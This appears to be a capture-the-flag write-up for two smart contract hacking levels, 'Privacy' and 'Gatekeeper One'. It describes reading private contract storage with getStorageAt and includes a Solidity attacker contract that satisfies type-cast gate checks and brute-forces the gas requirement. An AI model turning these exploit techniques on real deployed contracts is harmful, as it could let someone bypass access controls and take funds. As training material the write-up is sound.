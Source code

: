 # Privacy
The objective is to unlock the contract. We need to know the key to do this.
Reading the storage of the smart contract will be done using web3.eth.getStorageAt(). We need to deeply understand how smart contracts store data to find the result.
Here is a picture that explains what data should be read :

![Privacy contract storage](images/Privacy.png)


2a55cde6341c0d09f3497cb9a8e6492e


## Gatekeeper One
Here, we do need to:
- use a contract to get msg.sender != tx.origin
- cast the tx.origin to different type to complete all checks: To do so, we identify that uint32(num) == uint16(num) != uint64(num) == uint16(uint160(tx.origin))
- find the right amount of gas: we just have to brute force to find the right amount of gas, so check `gasleft() % 8191 == 0` will pass.
```
contract gateKeeperOneAttacker {

    constructor(address victim) {
        // Gate one will be done automatically

        // Gate three
        uint160 originAs160 = uint160(tx.origin);
        uint64 originAs64 = uint64(originAs160);

        //// We need uint32(number) == uint16(number), so the 16 higher bits should be 0
        uint64 finalNumber = originAs64 & 0xFFFFFFFF0000FFFF;
        bytes8 finalBytes = bytes8(finalNumber);
        // Gate twon we will just brute force it
        for(uint i = 0; i < 8191; i++) {
            try GatekeeperOne(victim).enter{gas: 100000+i}(finalBytes) {}
            catch {}
        }
    }
}
```
